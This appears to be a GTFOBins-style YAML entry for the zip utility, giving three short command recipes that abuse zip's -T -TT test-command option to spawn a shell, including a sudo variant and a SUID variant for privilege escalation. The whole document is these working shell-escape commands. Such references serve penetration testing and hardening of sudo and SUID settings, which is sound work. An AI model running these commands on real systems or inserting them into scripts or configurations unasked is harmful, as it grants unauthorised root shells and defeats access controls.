 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  suid-limited:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
```

